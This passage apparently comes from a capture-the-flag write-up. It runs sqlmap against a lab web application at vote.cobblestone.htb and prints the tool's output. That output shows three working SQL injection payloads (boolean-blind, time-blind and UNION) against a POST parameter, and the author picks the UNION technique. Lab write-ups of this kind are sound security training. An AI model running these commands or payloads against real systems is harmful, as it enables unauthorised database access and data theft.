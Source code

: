Then we use `sqlmap` with `--batch` to run it automatically.
```bash
sqlmap -r req --batch
```


```sql
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.9.4#dev}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:03:46 /2025-09-28/

[13:03:46] [INFO] parsing HTTP request from 'req'
[13:03:46] [INFO] resuming back-end DBMS 'mysql'
[13:03:46] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=6'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=http://vote.cobblestone.htb/index.php' AND 5926=5926 AND 'GBwC'='GBwC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SLEEP)
    Payload: url=http://vote.cobblestone.htb/index.php' AND SLEEP(5) AND 'CmvC'='CmvC

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-6395' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b626271,0x5050685272454b637067796d43666d72656a42795669764e784141746e64484d527351556a745651,0x7178627171),NULL-- -
---
[13:03:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:03:48] [INFO] fetched data logged to text files under '/home/rouxtronics/.local/share/sqlmap/output/vote.cobblestone.htb'

```

We got 3 techniques to exploit this SQLi.  
- Gonna go with `UNION query` technique.
